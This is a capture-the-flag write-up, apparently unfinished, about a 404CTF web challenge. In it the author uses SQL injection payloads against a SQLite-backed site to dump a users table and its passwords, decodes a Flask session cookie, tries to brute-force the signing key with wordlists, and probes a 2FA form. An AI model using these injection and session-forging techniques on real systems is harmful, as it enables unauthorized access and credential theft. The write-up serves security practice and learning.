







# LE GORFOU 42 🟠

<a class="back-link" href="../../">< Go back</a>

## Description

Voici le site web du journal de football LE GORFOU 42 ! Il est tout neuf, dispose de quelques articles intéressants et, est super sécurisé... non ?

<https://le-gorfou-42.challenges.404ctf.fr>

all files in [resources/](./resources) were provided.

## Challenge

### Recon

We start exploring the website:


Let's first look at the "Articles" page:


The articles themselves serve no purpose there is no link to another page it's just text, though we have a search bar, after some attempts the input seems to be pretty well sanitized, I didn't manage to get any error message to appear.

Let's keep going, there is a Login page:



The error messages are not explicit enough (and brute forcing is not allowed anyways), btw the error message: `Mauvais identifiants et/ou mot de passe`.

There doesn't seem to be any password reset or anything like that, I started looking for hidden pages without really doing any enumreation, by luck I found `/admin`:



Intersting, there seems to be an error in the order that the backend checks if my session is valid. It looks for my username before even verifying if I'm logged-in. This could be intersting let's keep it aside.

After messing around I also found the default 404 page:



Now this is a very intersting one, it's the same search bar component that's on the Articles page, but this one is not sanitized.

### SQL Injection via non-sanitized field

I tried some stuff, one thing that seemed plausible is SQLi, after attempting some different classic checks, I found that the database is sqlite as this was one of the only database injections that worked without errors.

```sql
' OR sqlite_version()=sqlite_version(); --+
```

Now my objective is to print the database version, if I can get that then I can pretty much get anything

I first tried to understand how the data is stored, I did some `ORDER BY <X>` and `UNION SELECT null,null`, from this we learn that there are two columns and the second one can be used to inject text into the DOM:



Let's get the version

```sql
' UNION SELECT 1,sqlite_version(); --+
```

> 3.40.1

Okay now let's look at the tables:

```sql
' UNION SELECT 1,sql FROM sqlite_schema; --+
```



Nice, we now know that we have a `Xx_US3RS_xX` table that contains `ID`, `Xx_US3RNAM3_xX`'s and `Xx_PASSW0RD_xX`'s

And a `titles` table that contains `title_id` and `title`.

### Leak the users table

```sql
' UNION SELECT 1,Xx_US3RNAM3_xX FROM Xx_US3RS_xX --
' UNION SELECT 1,Xx_PASSW0RD_xX FROM Xx_US3RS_xX --
```

Doing both of these we indeed get 3 pairs of username and password, but nothing says that they are related so to make sure we are not mismatching them let's manually fetch them using the following, replacing `<username>` with the user.

```sql
' UNION SELECT 1,Xx_PASSW0RD_xX FROM Xx_US3RS_xX WHERE 1='<username>' --
```

From this we get:

```
Xx_ADMINISTRAT0R_xX:Mk$nj5KzAE4Rg#
journaliste_du_54:bQ3M^5RpjzVy^k
journaliste_du_57:K#fBZM!4A593aN
```

### Login as admin

Let's first try to login as the `Xx_ADMINISTRAT0R_xX` user. After doing so we note two things.

1. A session cookie was created, from the `/admin` error message we saw previously and the format of this cookie we can almost guess that the backed in Flask.

2. A 2FA page is presented to us.



### Exploring sessions

Let's first explore what we can do in this "1FA" state, accessing the `/admin` page redirects us without any message or log to `/`, it appears that we do not have the permissions but the user was set correctly.

For the Admin page to be able to read our username it must be from our session cookie, this is not you common JWT token, Flask has a special way of encoding it using extra steps for example zlib compression. Thankfully [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) exists and it allows to play with Flask session cookies:

```bash
flask-unsign --decode --cookie '.eJwljjkKAzEMAP_iOoVtST72M4usgyyEBPZIE_L3GNLNwBTzCavvdtzDcu6X3cK6aVgCQUfPhMVEco_uxaKRaavJMTnrJO2eRhkCrNg9K2FjY02RRhpE0ms1gCYFoZi6kKJKdoss3lPGVluTFBuBV2yZYBh3nh2ghDlyHbb_b2Dq2_bNN-Fzez3D4vw47PsDecY4Mw.ZiuVbg.-DO0I5yB74OFaCukqZ1Bg_2UBYk'
# {'_fresh': True, '_id': '5394f2546ecc290ff6e0e5ed871f41fadd87d9f1b6bc3ad49f2d548aead105b1b55c977e338c6436edfc5d4dc2fe0acf91248788c10853f748253bea9afc534c', '_user_id': '3', 'verification': False}
```

- `_fresh` is just a state used by Flask to know if this is an original session or a refreshed session (i.e. `refresh_token`)
- `_id` could be hex but it doesn't decode to anything readable so it's probably just internal to the backend.
- `_user_id` is most probably just the `ID` from the `Xx_US3RS_xX` table.
- `verification` is very intersting this could be a way to bypass our 2FA from before.

`flask-unsign` also allows for brute-force to try and unsign the session as to be able to forge our own, I did attempt a 55k intended to be used with flask-unsign ([all.txt](https://github.com/Paradoxis/Flask-Unsign-Wordlist/blob/master/flask_unsign_wordlist/wordlists/all.txt)) and then I ran trough `rockyou.txt` just to try my luck. Nothing found.

As a last attempt I also tried to acces `/verification` as a anonymous user:



### Attempting to complete the 2FA

From the "Verification" page, we are asked to submit an username and a "code", for the username, this field is also vulnerable to SQLi. <!-- TODO: Explore more -->

The code field is very obscure, we have no indications on the format, there doesn't seem to be any sanitization but it never causes any errors, we don't even really know how this code is given to the user as we have leaked the whole database and there is no mention of a "code" even attempting to login I checked and nothing was added.

For this code to work either it's kept in memory in the backend, or there is a second database.
<!-- TODO: Explore more -->

Success: `F`

This causes errors:

- `Xx_ADMINISTRAT0R_xX' AND '1'='1' --`: `incomplete input`
- `Xx_ADMINISTRAT0R_xX' AND (SELECT 1 FROM generate_series(1,10000000)) --`: `near "WAITFOR": syntax error`

"')"
Xx_ADMINISTRAT0R_xX' AND (SELECT 1 FROM
